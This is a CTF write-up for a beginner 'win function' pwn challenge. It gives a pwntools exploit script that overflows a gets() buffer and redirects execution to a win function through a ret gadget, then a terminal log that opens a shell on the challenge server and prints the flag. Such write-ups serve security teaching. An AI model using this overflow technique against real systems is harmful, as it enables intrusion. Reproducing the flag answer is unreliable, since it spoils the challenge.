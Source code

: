 ## Training Problem: Intro to PWN

### 153

training

Classic win function pwn.

-ProfNinja

(I originally released this with a canary, took away the canary and redployed the service. If your binary has a canary download again.)

`nc 0.cloud.chals.io 13545`



### Solution
- exploit.py
```python

'''
gets : rbp - 0x30

win address = 0x004011b6
'''

from pwn import *

context.binary = binary = ELF("./pwnme" , checksec = False)
# context.log_level = "debug"

win_address = p64(binary.symbols.win)
ret_address = p64(0x000000000040101a)
								
								
payload = b'A' * (0x30) + b'B' * 8 +ret_address +  win_address

# p = process()
p = remote("0.cloud.chals.io", 13545)
p.sendline(payload)
p.recv()
p.interactive()

```



```terminal

┌──(kali㉿kali)-[~/CTF/UDCTF/pwn/Training Problem: Intro to PWN]
└─$ python3 exploit.py
[+] Opening connection to 0.cloud.chals.io on port 13545: Done
[*] Switching to interactive mode
$ ls
flag.txt
pwnme
$ cat flag.txt
udctf{h00r4y_I_am_a_pwn3r_n0w}

```

